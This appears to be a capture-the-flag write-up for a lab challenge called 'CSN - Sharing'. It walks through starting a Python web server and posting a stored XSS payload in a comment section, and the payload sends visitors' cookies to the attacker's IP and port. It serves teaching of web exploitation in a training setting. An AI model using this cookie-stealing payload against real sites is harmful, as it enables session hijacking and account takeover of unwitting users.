



# CSN - Sharing

**Description:** CSN har trafik af brugere der logger ind til tider, kan du få dem til at dele lidt? gå til CSN.hkn
**Points:** 40


We're presented with a website which looks like this:


We know that you can perform xss on the page. We also know that there is users that is logging on from time to time - and you need them to share something with you. This challenge is hinting to that you'll need to grab the cookie from the users. 

We're going to make a payload that can steal the cookie from the visitors.
But first you'll need your IP. Type ``ip addr show`` in your terminal. 



**Using VPN:**
Your IP is the last on the list. The different IPs are divided into small section with a number. Go to the section, where the name of the wireguard config file is present. (my wireguard config is named vregionals) And there you have your IP. 

**Using in browser:** 
Your IP is also the last on the list. The different IPs are divided into small section with a number. Go to the section, where the name "eth0" is present. And there you have your IP. 


Now we need to start a web server on our machine. I recommend using python.

**Python2:** 
```python
python2 -m SimpleHTTPServer xxxx
```

**Python3:**
```python
python3 -m http.server xxxx
```

---

Replace ``xxxx`` which a four digit port. I'll choose 5000 and use Python3
```python
python3 -m http.server 5000
```


Now we're going to create the payload to paste into the comment section.

```JS
<script>document.location='http://IP:PORT/?c='+document.cookie;</script>
```
Replace ``IP`` & ``PORT`` with your IP and the choosen port.

```JS
<script>document.location='http://25.176.242.200:5000/?c='+document.cookie;</script>
```




Post this payload into the comment section on the page and open your terminal.
Wait a bit and then you'll see a new request with the flag as a parameter.


